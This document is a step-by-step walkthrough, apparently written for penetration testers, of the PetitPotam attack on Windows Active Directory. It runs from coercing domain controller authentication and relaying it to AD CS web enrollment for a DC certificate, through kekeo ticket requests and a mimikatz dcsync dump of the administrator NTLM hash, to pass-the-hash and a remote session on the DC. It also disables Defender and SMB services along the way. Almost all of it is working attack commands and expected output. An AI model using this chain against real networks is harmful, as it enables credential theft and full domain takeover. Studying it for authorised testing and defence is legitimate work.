






## PetitPotam attack beginning to end
### process for penetration testers 
### one windows machine only (No KALI)  

[PetitPotam](https://github.com/topotam/PetitPotam) is an attack by [topotam](https://github.com/topotam) which uses MS-EFSRPC EfsRpcOpenFileRaw to coerce authentication (like auth relay, sort of).  

### Requirements:
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [Impacket fork by ExAndroidDev](https://github.com/ExAndroidDev/impacket)
- [mimikatz by gentilkiwi](https://github.com/gentilkiwi/mimikatz/releases) v2.2.0 20210724 or newer
- [kekeo by gentilkiwi](https://github.com/gentilkiwi/kekeo/releases) - probably v2.20 20210723 or newer, but older not tested - if you do have Kali machine 

### Assumptions:
- You are in control (admin rights) of a windows machine which can reach the DC(s) and CA(s) for the domain you are targetting. Does not need to be domain connected, but it will help find the CA(s).
- Python3.9+ is installed

- Impacket is NOT installed
- SMB is running on the windows machine you control (default)
- Domain has CA(s) with web services running
- Domain is using NTLM
- Defender real time protection is turned off  

- Anywhere below that has \<TEXT INSIDE SQUARE BRACKETS> you need to replace with correct values
- The domain is only \<domain_name>.\<tld> e.g. lab.local and DC=lab,DC=local. If it is anything else adjust acordingly, e.g. internal.lab.local and DC=internal,DC=lab,DC=local
- The domain is setup in a default config with CA(s) allowing web enrollment (Role Service Active Directory Certificate Services *Certiciation Authority* and *Certification Authority Web Enrollment*)  

### Setup:
- Completely remove all previous version of impacket or this won't work
- in a folder of your choice in powershell as Administrator:
  - `python -m pip install pyreadline`
  - `wget -outfile impacket_branch_ntlmrelayx.zip https://github.com/ExAndroidDev/impacket/archive/refs/heads/ntlmrelayx-adcs-attack.zip`
  - __Note:__ the ntlmrelayx-adcs-attack branch, NOT master
  - `Expand-Archive .\impacket_branch_ntlmrelayx.zip`
  - `cd .\impacket_branch_ntlmrelayx\impacket-ntlmrelayx-adcs-attack\`
  - `python .\setup.py install`
  - `cd ..\..`
  - `wget -outfile petitpotam_master.zip https://github.com/topotam/PetitPotam/archive/refs/heads/main.zip`
  - `Expand-Archive .\petitpotam_master.zip`
  - `wget -outfile kekeo.zip https://github.com/gentilkiwi/kekeo/releases/download/2.2.0-20210723/kekeo.zip`
  - `Expand-Archive .\kekeo.zip`
  - `wget -outfile mimikatz_trunk.zip https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210729/mimikatz_trunk.zip`
  - `Expand-Archive .\mimikatz_trunk.zip`  
 
 ### The action:
 - check the certificate servers available (needs to be done on a domain connected computer) in powershell.exe or cmd.exe prompt:
  - `certutil -config - -ping`  
     
  - A window pops up with known CAs. Select one and click OK. You should see 'CertUtil: -ping command completed successfully.'  
     
   
- OR in powershell a really ugly ldap query that MAY work if the domain has default groups in place (very limited testing suggest a group called "Cert Publishers"):
    - `$domain = New-Object DirectoryServices.DirectoryEntry("LDAP://<DC IP>/DC=<DOMAIN Name>,DC=<DOMAIN TLD>")`
    - `$searcher = New-Object DirectoryServices.DirectorySearcher($domain)`
    - `$searcher.Filter = "(&(ObjectClass=Group)(CN=Cert Pub*))"`
    - `$certpubs = $searcher.FindAll()`
    - `$certpubs.properties.member`
    - find the computers in the results (should only be computers, but hey)  
      
- If you're not on a domain joined computer and have no creds, try the substituting DC(s) in place of CA below, otherwise you may be SOL? Maybe scan the subnet for webservers hosting /certsrv/certfnsh.asp?
- Turn off port 445 listening. This is a minor pain as port 445 is in use. We need to stop SMB services to be able to listen on Windows:
  - In an administrative powershell session (Call this Session 1):
    - `Set-Service -name LanmanServer -Status Stopped -StartupType Disabled`
    - `Set-Service -name LanmanWorkstation -Status Stopped -StartupType Disabled`
    - `Set-SmbServerConfiguration -EnableSMB1Protocol $false`  
   
    - `Set-SmbServerConfiguration -EnableSMB2Protocol $false`  
   
    - You may need to reboot to make windows let go of port 445. If you do, don't forget to disable real time protection again if it isn't permanently disabled 
- Session 1: 
  - cd into the ExAndroidDev impacket examples folder `cd .\impacket_branch_ntlmrelayx\impacket-ntlmrelayx-adcs-attack\examples\`
  - `python .\ntlmrelayx.py -debug -smb2support --target http://<IP_OF_CA_SERVER>/certsrv/certfnsh.asp --adcs --template DomainController`  
   
- In a second administrative powershell session (Call this Session 2):
  - cd into the petitpotam folder `cd .\petitpotam_master\PetitPotam-main\`
  - `.\Petitpotam.py -d <domain_name e.g. lab.local> -pipe lsarpc <LOCAL_IP e.g. 10.1.1.62> <DC_IP e.g. 10.1.1.1>`  
   
- Session 1: you should see a stream of text like: 
  - *SMBD-Thread-4: Connection from <DOMAIN_SHORT_NAME>/<DC_MACHINE_NAME>$@<DC_IP> controlled, attacking target http://<IP_OF_CA_SERVER>*
  - *HTTP server returned error code 200, treating as a successful login*
  - *Authenticating against http://<IP_OF_CA_SERVER> as <DOMAIN_SHORT_NAME>/<DC_MACHINE_NAME>$ SUCCEED*
  - *Generating CSR...*
  - *CSR generated!*
  - *Getting certificate...*
  - *GOT CERTIFICATE!*
  - *Base64 certificate of user <DC_MACHINE_NAME>$:*
  - and then a chunk of Base64 (the certificate).  
   
  - You may see a few of these intermixed as multiple requests are being made from SESSION 2
- Session 1: hit `CTRL-C` to kill the ntlm relay
- Session 2: hit `CTRL-C` to kill the Petitpotam.py
- Session 2:
  - cd into the kekeo folder `cd ..\..\kekeo\x64\`
  - `.\kekeo.exe`
  - `base64 /input:on`
  - `tgt::ask /user:<DC_MACHINE_NAME e.g. dc01>$ /domain:<FQDN e.g. lab.local> /ptt /pfx:<Base64_Certificate_Here>`  
   
- Re-enable the *Server* and *Workstation* services (make sure you turn back to Auto start):
  - Session 1: `Set-Service -name LanmanServer -Status Running -StartupType Automatic`
  - Session 1: `Set-Service -name LanmanWorkstation -Status Running -StartupType Automatic`
- Start the WinRM service and open up trusted hosts so you can remote to the DC later (you could make this the DC IP instead of *, up to you)
  - Session 1:
    - `Set-Service -Name WinRM -Status Running`
    - `Set-Item WSMan:\localhost\Client\TrustedHosts -value *`  
    
- Session 2:
  - exit kekeo and then run `klist`
  - you should see text including __Cached Tickets: (1)__ and __Client: <DC_MACHINE_NAME>$ @ \<DOMAIN>__  
   
  - `cd ..\..\mimikatz_trunk\x64\`
  - `.\mimikatz.exe`
  - `lsadump::dcsync /domain:<FQDN e.g. lab.local> /user:administrator`  
   
  - copy the *Hash NTLM* value to the clipboard (don't save it to disk, risks others accessing it)
  - `privilege::debug`
  - `sekurlsa::pth /user:Administrator /domain:<domain e.g. lab.local> /run:powershell.exe /ntlm:<administrator_hash>`  
   
- In the new powershell prompt which was created:
  - `Enter-PSSession -ComputerName <DC_FQDN e.g. dc01.lab.local>`
  - ### PROFIT  
     
